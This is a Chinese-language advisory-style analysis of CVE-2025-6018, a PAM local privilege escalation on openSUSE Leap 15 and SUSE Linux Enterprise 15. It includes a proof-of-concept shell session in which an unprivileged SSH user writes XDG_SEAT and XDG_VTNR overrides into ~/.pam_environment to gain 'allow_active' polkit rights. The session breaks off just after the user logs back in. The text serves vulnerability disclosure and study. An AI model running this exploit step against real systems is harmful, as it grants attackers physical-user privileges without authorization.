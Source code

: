 https://u1f383.github.io/linux/2025/05/25/dbus-and-polkit-introduction.html  
## CVE-2025-6018: 在 SUSE 15 的 PAM 中从非特权用户到 allow_active 的本地提权漏洞 (LPE)   
  
分析  
  
在我们最近对 OpenSSH 的研究中，我们注意到，当非特权用户通过 sshd 登录到 openSUSE Leap 15 或 SUSE Linux Enterprise 15 时：  
- PAM 的 pam_env 模块（来自 Linux-PAM 1.3.0）默认读取该用户的 ~/.pam_environment 文件（即 pam_env 的 "user_readenv" 配置选项默认值为 1）；  
  
- pam_env 模块首先由 sshd 的 do_pam_setcred() 调用，作为 PAM 的 "auth" 堆栈的一部分（来自 /etc/pam.d/common-auth）；  
  
- pam_systemd 模块随后由 sshd 的 do_pam_session() 调用，作为 PAM 的 "session" 堆栈的一部分（来自 /etc/pam.d/common-session）。  
  
因此，通过 sshd 登录的非特权攻击者可以强制 pam_env 模块将任意变量添加到 PAM 的环境中（首先将它们写入 ~/.pam_environment），然后这些变量通过 pam_getenv() 返回给 pam_systemd 模块。特别是，pam_systemd 模块会调用 pam_getenv() 来获取 XDG_SEAT 和 XDG_VTNR 变量，这立即让我们想起了 Jann Horn 在 systemd 中的优秀漏洞 CVE-2019-3842：  
  
https://bugs.launchpad.net/ubuntu/+source/systemd/+bug/1812316  
  
简而言之，通过在 ~/.pam_environment 中设置 XDG_SEAT=seat0 和 XDG_VTNR=1，通过 sshd 登录到 openSUSE Leap 15 或 SUSE Linux Enterprise 15 的非特权攻击者可以假装他们实际上是坐在计算机前的物理用户；即，用 polkit 的术语来说，是一个 "allow_active" 用户。  
  
漏洞验证  
  
作为具体结果，这样的攻击者可以执行所有通常为物理用户保留的 "allow_active yes" polkit 操作。例如，在以下漏洞验证中，攻击者调用 systemd-logind 的 CanReboot() 方法来确定他们是否被认证为非特权的 "allow_any" 用户（CanReboot() 返回 "challenge"）或物理的 "allow_active" 用户（CanReboot() 返回 "yes"）：  

```
attacker# ssh -i id_ed25519 nobody@victim


victim> grep PRETTY_NAME= /etc/os-release
PRETTY_NAME=&#34;openSUSE Leap 15.6&#34;


victim> id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)


victim> cat /usr/share/polkit-1/actions/org.freedesktop.login1.policy
...xml
        <action id=&#34;org.freedesktop.login1.reboot&#34;>
                <description gettext-domain=&#34;systemd&#34;>Reboot the system</description>
...
                        <allow_any>auth_admin_keep</allow_any>
                        <allow_inactive>auth_admin_keep</allow_inactive>
                        <allow_active>yes</allow_active>
...


victim> gdbus call --system --dest org.freedesktop.login1 --object-path /org/freedesktop/login1 --method
org.freedesktop.login1.Manager.CanReboot
('challenge',)


victim> { echo 'XDG_SEAT OVERRIDE=seat0'; echo 'XDG_VTNR OVERRIDE=1'; } > .pam_environment


victim> exit


attacker# ssh -i id_ed25519 nobody@victim

```